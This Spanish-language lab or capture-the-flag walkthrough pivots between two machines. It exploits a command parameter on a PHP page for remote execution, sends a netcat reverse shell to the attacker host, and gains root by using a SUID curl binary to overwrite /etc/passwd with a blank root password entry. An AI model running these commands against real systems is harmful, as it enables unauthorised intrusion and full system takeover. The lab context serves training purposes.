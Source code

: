 Tenemos un formulario y parece que tiene un parametro **cmd**, Revisando nuestra interfaz vemos lo siguiente:
```bash
hostname -I

10.10.10.2 20.20.20.2 
```

Eso indica que teenmos conectividad con la interfaz de red por lo que podemos intentar pivotear en la red:
```bash
20.20.20.2
```

Asi que intentaremos ejecutar un comando con **curl** de la siguiente manera apuntando a su pararmetro **cmd**
```bash
curl -s -X POST -d "cmd=id" http://20.20.20.3/process.php
```

Tenemos Ejecucion de comandos:**RCE** desde nuestra maquina victima **dark1** en la maquina objetivo **dark2**
**Objetivo** es usar como puente a **dark1** para que sea el intermediario entre **dark2** que es la que nos enviar la **bindShell** a nuestra maquina de atacante:

Sabiendo que tenemos ejecucion remota de comandos en la maquina **dark2**, Ahora tendremos que abrir una nueva sesion por **ssh** con el usuario **toni**
```bash
# Sesion numero 2 toni
nc -nlvp 443
```

Ahora desde la sesion 1 de **toni** ejecutamos el comando que nos enviara una **bindShell** a nuestra maquina atacante:
```bash
curl -s -X POST -d "cmd=nc -e /bin/bash 20.20.20.2 443" http://20.20.20.3/process.php
```

Logrando ganar acceso a **dark2** usando como puente a **dark1**
```bash
toni@a011bfec493b:~$ nc -nlvp 443
listening on [any] 443 ...

connect to [20.20.20.2] from (UNKNOWN) [20.20.20.3] 47564
whoami
www-data
```
###### Usuario `[ www-data ]`:
Buscando por privilegios **SUID** en **dark2** tenemos el comando **curl** del cual nos aprovecharemos para sobreescribir el archivo: **( /etc/passwd )**
Primero vemos el contenido del archivo: **( /etc/passwd )** con el comando **cat**
```bash
cat /etc/passwd
```

Ahora todo ese contenido lo copiamos, Pero antes de guardarno en un archivo bajo el mismo nombre: **( passwd )** le quitamos la: **( x )** al usuario **root** para que al sobreescribir el archivo, Nos permita conectanos como **root** sin proporcionar contrasena.
```bash
cat passwd # Archivo malicioso

root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```